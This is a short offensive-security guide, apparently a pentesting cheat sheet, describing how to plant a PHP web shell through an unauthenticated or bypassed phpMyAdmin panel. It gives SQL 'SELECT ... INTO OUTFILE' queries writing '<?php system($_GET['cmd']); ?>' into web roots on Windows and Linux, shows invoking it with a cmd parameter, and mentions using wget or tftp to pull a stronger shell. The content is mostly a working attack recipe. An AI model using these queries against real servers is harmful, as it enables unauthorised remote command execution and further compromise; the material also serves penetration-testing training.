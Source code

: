 # phpMyAdmin

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:
```
http://192.168.1.101/phpmyadmin/
```

Then click on SQL. 

```
Run SQL query/queries on server "localhost":
```
From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

## Download a better shell

On linux-machines we can use wget to download a more powerful shell.

On windows-machines we can use tftp. 